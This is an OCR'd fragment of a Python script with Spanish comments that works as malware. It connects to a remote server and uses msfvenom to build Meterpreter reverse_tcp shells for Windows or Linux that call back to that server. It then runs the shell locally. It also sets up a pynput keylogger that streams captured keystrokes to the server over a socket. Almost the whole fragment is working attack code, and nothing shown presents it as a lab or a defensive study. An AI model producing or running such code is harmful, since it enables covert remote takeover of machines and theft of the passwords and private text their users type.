 ```python

print(Fore.GREEN + Style.BRIGHT + f"\n{'='*60}")
print(Fore.GREEN + Style.BRIGHT + f"🟢 Conectado al servidor en {SERVER_IP}:{PORT}")
print(Fore.GREEN + Style.BRIGHT + f"{'='*60}\n")

# Función para generar la payload de la reverse shell
def generate_reverse_shell():
    os_name = platform.system().lower()
    shell_file = ""

    if os_name == "windows":
        shell_file = "shell.exe"
        command = f"msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={SERVER_IP} LPORT={REVERSE_PORT} -f exe > {shell_file}"
    elif os_name == "linux":
        shell_file = "shell.elf"
        command = f"msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={SERVER_IP} LPORT={REVERSE_PORT} -f elf > {shell_file}"
    else:
        print(Fore.RED + Style.BRIGHT + "❌ Sistema operativo no soportado para la reverse shell.")
        return None

    print(Fore.CYAN + Style.BRIGHT + f"⚙️ Generando la reverse shell para {os_name}...")
    subprocess.run(command, shell=True)
    return shell_file

# Función para ejecutar la reverse shell
def execute_reverse_shell(shell_file):
    if shell_file:
        try:
            print(Fore.CYAN + Style.BRIGHT + f"🚀 Ejecutando la reverse shell {shell_file}...")
            if platform.system().lower() == "windows":
                os.startfile(shell_file)
            else:
                subprocess.run(f"chmod +x {shell_file} && ./{shell_file}", shell=True)
        except Exception as e:
            print(Fore.RED + Style.BRIGHT + f"❌ Error ejecutando la reverse shell: {e}")

# Función para capturar teclas
def capture_keystrokes():
    # Configurar variables para el diseño
    data_buffer = []

    # Función para enviar las teclas al servidor
    def send_to_server(key):
        data_buffer.append(key)
        if len(data_buffer) > 20:
            data_buffer.pop(0)
        message = ' | '.join(data_buffer)
        client_socket.sendall(message.encode('utf-8'))

    # Manejador de eventos para pynput
    def on_pynput_key_press(key):
        try:
            key_str = key.char
        except AttributeError:
            key_str = str(key)
        send_to_server(key_str)

    # Configurar el listener para el teclado en entornos gráficos
    if use_pynput:
        print(Fore.CYAN + Style.BRIGHT + "🔄 Usando pynput para captura de teclas en entorno gráfico.")
```